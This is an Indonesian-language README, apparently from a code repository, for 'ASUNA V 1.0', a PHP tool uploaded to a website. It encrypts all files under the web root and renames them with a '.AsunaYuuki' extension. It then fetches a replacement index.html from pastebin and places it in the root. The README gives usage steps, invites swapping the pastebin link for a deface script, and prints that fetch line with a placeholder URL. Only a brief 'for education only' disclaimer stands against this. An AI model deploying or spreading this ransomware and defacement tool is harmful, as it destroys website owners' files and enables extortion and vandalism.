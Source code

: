 ## ASUNA V 1.0

Asuna merupakan kode untuk mengenkripsi File yang berada di seluruh folder dan subfolder ROOT suatu Website.

### ⚙️Penggunaan
- Upload **asuna.php** pada website
- Akses file **asuna.php**
- Masukan kunci pada kolom **Key** dan tekan Submit

### 🖥️Cara Kerja
- Setelah menekan **Submit**, File yang berada pada dalam seluruh Folder dan Sub-Folded di direktori ROOT akan terenkripsi.
- Setelah terenkripsi, kode ini akan menambahkan ekstensi **.AsunaYuuki** pada bagian belakang ekstensi asli file yang dienkripsi.
- Setelah semua proses Enkripsi telah selesai, kode ini akan mengunduh file script lain dari pastebin dengan nama **index.html** dan akan memindahkannya ke folder ROOT.

### 📝Catatan
Silahkan ganti link pastebin pada baris ke 150 menggunakan link raw pastebin konten mu, bisa berupa script deface atau hal lain.
```$fileUrl = 'https://pastebin.com/raw/xxxxxxxx';```

### ‼️PERINGATAN
Kode ini bertujuan untuk edukasi semata, dan tidak diperkenankan untuk tujuan ilegal. Semua resiko yang ditimbulkan oleh kode ini, akan menjadikan tanggung jawab diri sendiri.
